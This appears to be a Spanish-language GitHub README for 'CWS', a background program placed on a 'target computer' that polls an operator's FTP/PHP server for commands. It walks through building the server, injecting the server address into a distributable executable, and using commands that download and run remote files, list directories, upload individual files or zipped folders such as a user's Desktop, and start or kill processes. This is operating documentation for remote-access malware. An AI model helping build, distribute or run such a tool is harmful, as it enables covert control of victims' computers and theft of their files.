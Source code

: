# CWS
A software waiting for commands. Like ...

## Creando el Servidor
CWS necesita de un servidor FTP para poder funcionar.
CWS.exe (desde ahora CWScli) es el ejecutable que se estara en segundo plano en el computador objetivo.
Una vez alli, CWScli comenzara su trabajo, pero antes es necesario poner el servidor en marcha.

Es muy facil hacer que todo funcione.

### Estructura obligatoria
CWScli tiene una estructura pre-definida en su codigo, solo falta que tu copies esta estructura en tu servidor.
Con estructura me refiero a que los archivos, rutas y carpetas deben estar de cierta forma dentro de tu servidor.

1. En un directorio principal. Deberas crear las siguientes carpetas:
  * CWS
  * Dentro de la carpeta CWS deberas crear una carpeta llamada Users
2. Dentro de la carpeta CWS. Deberas poner los siguientes archivos:
  * ReportIt.php
  * cliResponse.php
  * fileUpload.php
  * Opcionalmente puedes poner createFolder.php. Aunque este no se utiliza.
Tambien deberas editar el archivo ``General.ini``:
Dentro de este deberas poner ciertos valores:
Las lineas con "[]" no las puedes editar.
Campos:
``IsEnabled=True``: True/False. Si CWScli esta disponible para funcionar. De estar en false todos los CWScli dejaran de funcionar.
``IsReading=True``: True/False. Si CWScli debe hacer caso a este archivo. De estar en false todos los CWScli dejaran de funcionar.
``Name=CWS``: Nombre del programa. En este caso se llama CWS. No editar ni modificar.
``Version=1.1.0.0``: Version actual de CWS. Si se publica una nueva release, deberas subir un .zip con la nueva version de CWS.exe al servidor. Luego deberas editar este campo con la version correspondiente.
``Download=null``: Link de descarga directo del .zip con el CWS.exe. Si hay una nueva version, es esto lo que CWScli descargara para luego instalar.
``HostDomain=null``: Dominio. Es el link del servidor al que responde. Pone aqui tu el link a tu servidor.
``GeneralConfigFileReaderTimeout=60000``: Numero. Cada cuanto tiempo se leera este archivo.
``PrivateConfigFileReaderTimeout=60000``: Numero. Cada cuanto tiempo vera por modificaciones en el archivo de control por usuario. (En resumen: cada cuanto tiempo vera por nuevos comandos)
Luego de editarlo, subelo al servidor dentro de la carpeta CWS.
3. Listo. El Servidor ya esta configurado.
Un ejemplo del como deberia quedar es:
Ejemplo:
    Siendo HostDomain=http://mi-dominio.com
    http://mi-dominio.com/CWS
    http://mi-dominio.com/CWS/Users
    http://mi-dominio.com/CWS/ReportIt.php
    http://mi-dominio.com/CWS/cliResponse.php
    http://mi-dominio.com/CWS/fileUpload.php
    http://mi-dominio.com/CWS/General.ini

## Inyectando tu Servidor
CWScli no funcionara si no sabe a que servidor servir. Debes inyectar el link de tu servidor dentro de CWS.exe para qui este funcione.
La inyeccion debe hacerse con CWS Control.exe

1. Dentro de CWS Contro.exe debes dirigirte a la pestaña "Injector".
2. En el campo "Ruta ejecutable" lo dejas en blanco xD.
3. En el campo "HostDomain" debes poner tu servidor. Ejemplo: http://mi-dominio.com <- tal cual. "http://mi-dominio.com/" no sirve. debe ser sin el / final.
4. Una vez completado eso. Clic en el boton "INYECTAR" y te pedira que selecciones CWS.exe para poder escribir dentro de el el HostDomain.
5. Listo. Un mensaje aparecera confirmando la accion. El nuevo CWS.exe generado es el que se puede distribuir.

## Controlando
Todos los computadores que tengan CWS.exe ejecutandose podran ser controlados.
Basta con ver la lista de comandos:
* /Network.DownloadComponent=<url>, <fileName>, <isCompressed>, <RunLater>, <mainFileName>, <Parameter>
  url: link de descarga directo de algun complemento. (a un ejecutable, un comprimido, imagen o archivo de texto, etc)
  fileName: El nombre que recibira el archivo descargado dentro del computador. (si la url conduce a descargar "hola.zip" tendras que poner ese nombre junto a su extencion (hola.zip))
  isCompressed: True/False. Si el archivo que se descargo es un .zip, entonces deberas poner True. Si es otro tipo de archivo (ejemplo: una imagen, archivo de texto, ejecutable,e tc) entonces pone False.
  mainFileName: Es el nombre del archivo principal. Si el .zip contiene un archivo llamado Hola.exe, entonces pone aqui Hola.exe. Asi CWScli sabra que archivo debe ejecutar en caso de que RunLater este en True.
  RunLater: True/False. Si quieres que el archivo descargado se inicie debes poner True, si no quieres que se inicie, pone False. No es necesario que sea un .exe. Realmente si pones True, cualquier archivo iniciara. Sea una imagen (iniciara con la aplicacion Fotos) o un archivo de texto (iniciara con Bloc de notas) y asi.
  Parameters: Si es un ejecutable podras poner parametros para que este inicie. Si no es un ejecutable entonces pon "null".
* /FileSystem.GetFiles=<ruta_directorio>
  ruta_directorio: La ruta a la cual se listaran todos los archivos. Ejemplo: C:\Users\Zhenboro\Desktop. Eso devolvera todas las rutas de los archivo dentro de esta.
* /FileSystem.GetDirectories=<ruta_directorio>
  ruta_directorio: La ruta a la cual se listaran todas las carpetas. Ejemplo: C:\Program Files. Eso devolvera todas las rutas de las carpetas dentro de esta.
* /Network.GetFile=<ruta_archivo>
  ruta_archivo: Ruta del archivo que quieres se suba al servidor. Ejemplo: C:\Users\Zhenboro\Desktop\Registros.docx este archivo Registros.docx se subira al servidor y lo podras ver. (Cuiado: Si el archivo es muy grande podria dañarse mientras se sube. Tambien ten encuenta que algunos servicios de hosting no permiten subidas de ciertos tipos de archivo)
* /Network.GetFolder=<ruta_directorio>
  ruta_directorio: Ruta del directorio que quieres se suba al servidor. Ejemplo: C:\Users\Zhenboro\Desktop todos los archivos y carpetas dentro de la carpeta Desktop seran comprimidos en un .zip y luego este se subira al servidor. (Cuidado: Si el hay muchos archivos, el .zip podria no subirse. Tambien ten en cuenta que algunos servicios de host no permiten la subida de archivos .zip)
* /Process.Start=<ruta_archivo>, <Parameter>
  ruta_archivo: Indica la ruta del archivo que quires iniciar. Puede ser un archivo de texto, imagen, etc. Ejemplo: C:\Users\Zhenboro\Desktop\programa.exe o winword.exe (sin indicar la ruta, Microsoft Word puede ser iniciado sin indicar la ruta, tambien pasa con, por ejemplo, cmd.exe, firefox.exe, etc...). Incluso mostrar una pagina web (msedge.exe,http://midominio.com)
  Parameter: Si es un ejecutable, podras pasar parametros. Si no, dejalo vacio.
* /Process.Stop=<nombre_proceso>
  nombre_proceso: Nombre del programa a cerrar. Ejemplo: winword (sin extencion)
* /Stop
  Detiene la instancia de CWS.exe
